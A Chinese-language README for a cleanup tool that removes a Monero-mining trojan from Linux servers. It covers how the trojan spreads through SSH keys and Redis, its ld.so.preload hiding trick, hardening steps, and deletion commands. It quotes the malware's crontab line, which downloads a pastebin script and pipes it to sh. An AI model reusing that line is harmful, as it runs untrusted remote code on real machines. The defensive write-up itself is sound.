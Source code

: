 ##virus_clean 

##背景

20190409 晚上阿里云邮件预警提示有服务器不断向其他服务器发送6379，22端口的请求，同时封闭了该服务器的端口，后来阿里云披露出来是门罗币挖矿病毒。 该病毒可以通过免密钥登录的方式无限复制，只要中招服务器有对应的免密钥登录到其他服务器的配置，都会被感染。

##表现


`
[root@dev-us-api ~]# crontab -l
`

*/15 * * * * (curl -fsSL https://pastebin.com/raw/v5XC0BJh||wget -q -O- https://pastebin.com/raw/v5XC0BJh)|sh

crontab中的任务删除过段时间会自动创建（其实后来发现是基于预加载库的拦截，每次执行ls ll 等命令都会刷新这个任务计划，木马会重新写入）
有的服务器top可以看到占用cpu较高的应用有的服务器看不到
ps  看不到对应进程

尝试建立大量的22、6379端口请求


##传播途径：

1. root的免密钥登录（我是这个）
2. 还有一个redis的无密码登录（网上其他有人因为这个中）
3. jenkins 漏洞侵入


##处理流程

我查了很多资料后来找到一个busybox 工具，这个工具可以无依赖的让你使用操作系统常用的命令比如ps ls rm kill netstat 等等。可以用这些命令来查询被隐藏或者你差不到的应用。

1. ###确定请求地址：
 	pastebin.com，所以我在安全组里直接封掉了这个网站的所有请求，或者可以通过本地hosts的方式将这个网址解析为本机等等都可以

2. ###安全加固：
	默认这个病毒是通过22ssh 端口传染，所以ssh服务 的端口不能是默认，需要修改一个其他端口。关闭root登录，修改/etc/ssh/sshd_config 中PermitRootLogin yes 改为no。
	
	redis 尽量不要绑定到0.0.0.0 改为内网ip或者127.0.0.1，同时设置RequirePass 密码


3. ###删除木马
	核心的两个病毒文件（别急着删除，这里需要用busybox 去删除，直接rm 去删除的话，当你执行ls之类的命令，木马会重新被执行）
 	/etc/ld.so.preload 
 	/usr/local/lib/libpamcd.so
 
	其他病毒文件
		rm -f /etc/cron.d/tomcat
		rm -f /etc/cron.d/root
		rm -f /var/spool/cron/
		rm -f /tmp/ld.so.preload* 	
4. ###清理进程

	这里需要busybox，busybox 安装比较麻烦（而且不同的发行版编译的时候会遇到各种问题），我这里直接把命令放在版本库里了，直接git clone ，执行脚本即可。
	脚本我已经整理好了.
	脚本里面包含我遇到的 kerberods和khugepageds 两个木马进程和我其他服务器中招的kthrotlds，剩下的就是其他人遇到的我也整理进来，其他木马 可以通过busybox ps aux 来查看 ，基本从/tmp 启动的进程都是有问题的，所以可以仔细检查，看脚本的执行流程来删除掉就可以了
	
	最后需要重启（手动）。
##使用方法
	`cd /usr/local/src`

	`git clone https://github.com/unixtommy/virus_clean.git`

	`cd virus_clean`

	`sh virus_clean.sh`

	重启


附：比较感谢这个朋友，我主要参考了他的做法，而且他的情况跟我类似，也不完全类似，但是差不多了。

[Linux 挖矿病毒 khugepageds的处理](https://www.wangdb.com/archives/1599.html)
https://www.wangdb.com/archives/1599.html
